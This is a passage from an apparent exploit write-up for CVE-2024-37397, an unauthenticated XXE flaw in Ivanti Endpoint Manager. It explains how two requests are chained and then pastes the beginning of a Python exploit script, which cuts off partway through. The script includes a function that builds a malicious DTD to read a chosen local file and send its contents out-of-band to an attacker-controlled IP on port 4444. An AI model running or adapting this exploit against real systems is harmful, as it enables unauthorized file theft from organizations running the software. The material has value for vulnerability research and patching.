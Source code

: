 The final exploit combines the `GetTasksXml` and `SetActionStatus` requests. Essentially, `GetTasksXml` retrieves the valid `historyEntryID`, which is then used in the `SetActionStatus` request containing the XXE payload. Unfortunately, at the time of writing, the installed version had a license expiration issue, making reinstallation more complex than expected. However, the final exploit can be found [here](https://github.com/D4mianWayne/POCs/blob/main/CVE%202024-37397/CVE-2024-37397-Final-Full-Chain.py) and is also pasted below:

```python
# ---------------------------------------------------------
# Exploit Title: Ivanti Endpoint Manager Unauthorized XXE Exploit
# CVE: CVE-2024-37397
# Date: 2024-09-17
# Exploit Author: @D4mianWayne
# Vulnerability Discovered by: 06fe5fd2bc53027c4a3b7e395af0b850e7b8a044 (Trend Micro)
# Vendor Homepage: https://www.ivanti.com/
# Software Link: https://www.ivanti.com/products/ivanti-endpoint-manager
# Version: Affected versions [mention affected versions]
# Tested on: Ivanti Endpoint Manager version X.X.X
# CVE Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-37397
# ---------------------------------------------------------



import requests
import argparse
import urllib3
import xml.etree.ElementTree as ET

def print_banner():
    print("="*50)
    print("     Exploit Script for CVE-2024-37397")
    print("     Unauthorized XXE Exploit in Ivanti Endpoint Manager")
    print("="*50)
    print("     Created by @D4mianWayne")
    print("     Date: 2024-09-17")
    print("="*50)

# Call the function to display the banner



def log(message, status="info"):
    if status == "success":
        print(f"[+] {message}")
    elif status == "log":
        print(f"[*] {message}")
    else:
        print(f"[-] {message}")

# Function to create the malicious DTD file since this is a blind XXE so we are performing an
# OOB XXE attack and exfiltrate data

def create_malicious_dtd(file_path, local_ip):
    dtd_content = f'''<!ENTITY % file SYSTEM "file:///{file_path}">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://{local_ip}:4444/?content=%file;'>">
%eval;
%exfiltrate;
'''
    with open('malicious.dtd', 'w') as dtd_file:
        dtd_file.write(dtd_content)
    log(f"Malicious DTD created at malicious.dtd", "success")


def getTasksXml(target_url):
```